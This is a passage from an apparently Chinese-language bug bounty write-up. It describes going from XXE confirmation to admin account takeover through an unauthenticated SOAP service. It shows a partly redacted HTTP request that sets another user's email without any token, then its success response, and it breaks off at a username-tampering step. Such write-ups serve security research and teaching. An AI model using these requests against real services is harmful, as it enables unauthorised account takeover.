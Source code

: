 - 即使未直接返回文件内容，仍执行DTD引用。  
  
- 易受带外交互方法（如DNS或HTTP回调）攻击。  
  
从这一刻起，攻击范围从简单的枚举扩展到可能的权限提升、账户接管，甚至尝试RCE。  
  
  
  
05  
  
步骤四：从枚举到利用——接管管理员账户  
  
安全小白团  
  
  
确认可以枚举内部用户数据并验证XXE后，是时候测试漏洞的深度了。  
  
  
真正的目标是什么？看看能否在无需认证的情况下修改用户或创建新账户。  
  
  
1. 通过I***Email操纵邮箱  
  
  
我开始与I***Email函数交互。该方法允许设置或修改任何用户账户的邮箱。无需令牌、会话，纯SOAP逻辑。  
  

```
POST /***/**/** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 401
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:web=&#34;http://**.**/&#34;>
  <soapenv:Header/>
  <soapenv:Body>
    <web:I***Email>
      <id***>999</id***>
      <***Email>nc5@intigriti.me</***Email>
      <tokenWebLogon></tokenWebLogon>
    </web:Imp***Email>
  </soapenv:Body>
</soapenv:Envelope>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHJvE1v7aVX84smxyThZILKB2NCLlibxzpciaeJqVAkiajAFOBItbM9U3dA/640?wx_fmt=png&from=appmsg "")  
  
  
响应？  
  

```
<return>true</return>
```

  
2. 通过SetUserName篡改用户名  
  
  
设置邮箱后，下一步是设置用户名——一个对身份至关重要的参数。使用SetUserName，我为目标ID设置了一个干净的用户名。  
  
